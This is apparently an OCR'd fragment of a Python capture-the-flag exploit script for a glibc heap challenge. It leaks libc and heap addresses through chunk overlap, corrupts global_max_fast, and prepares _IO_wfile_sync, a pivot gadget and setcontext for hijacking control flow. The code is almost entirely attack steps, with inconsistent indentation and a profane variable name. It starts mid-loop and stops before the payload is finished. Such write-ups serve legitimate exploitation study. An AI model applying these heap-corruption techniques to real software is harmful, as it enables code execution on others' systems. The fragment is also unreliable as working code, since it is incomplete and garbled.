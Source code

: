 ```python=
    remove(fuck[0])
    new(fuck[0],"A"*0xf0)
    remove(fuck[0])
    new(fuck[0],"A"*0x1e0)
    remove(fuck[0])
    new(fuck[0],"A"*0x140)
    remove(fuck[0])
    print i
  new(fuck[0],"A"*0x88)
  new(fuck[1],"A"*0xf0)
  remove(fuck[0])
  heap(0xf1)
  new(fuck[0],p64(0x81)*60)
  remove(fuck[1])
  new(fuck[1],p64(0x21)*96)
  remove(fuck[1])
  new(fuck[1],p64(0x91)*31 + p64(0x91) + "D"*0x88 + p64(0x21)*11)
  remove(fuck[0])
  show(fuck[1])
  r.recv(0x105)
  libc = u64(r.recv(6).ljust(8,"\x00")) - 0x1e4ca0
  print("libc = {}".format(hex(libc)))
  new(fuck[0],p64(0x21)*60)
  remove(fuck[0])
  remove(fuck[1])

  new(fuck[0],p64(0x21)*128)
  remove(fuck[0])
  for i in xrange(6):
    new(fuck[0],"A"*0x400)
    remove(fuck[0])
    print i
  new(fuck[0],"A"*0x400)
  new(fuck[1],"A"*0x200)
  remove(fuck[0])
  remove(fuck[1])
  new(fuck[0],"A"*0x80)


  new(fuck[1],p64(0x91)*31 + p64(0x421) + "D"*0x88 + p64(0x21)*11)
  remove(fuck[0])
  show(fuck[1])
  r.recv(0x10d-8)
  heap = u64(r.recv(6).ljust(8,"\x00")) - 0x4d90
  print("heap = {}".format(hex(heap)))
  global_max_fast = 0x1e7600 + libc
  remove(fuck[1])
  new(fuck[1],"A"*0x90)
  remove(fuck[1])
  new(fuck[0],"A"*0x400)
  new(fuck[1],"A"*0x58 + p64(0x421) + p64(global_max_fast-0x20)*2 + p64(global_max_fast-0x20)*2 + "A"*0xc0)
  remove(fuck[0])

  print("libc = {}".format(hex(libc)))

  _IO_wfile_sync = libc + 0x1e5fc0
  magic = libc + 0x000000000012be97 # mov    rdx,QWORD PTR [rdi+0x8] ; mov    rax,QWORD PTR [rdi] ; mov    rdi,rdx ; jmp    rax

  print("_IO_wfile_sync = {}".format(hex(_IO_wfile_sync)))
  payload = "Z"*0x30
  setcontext = 0x55e35 + libc
```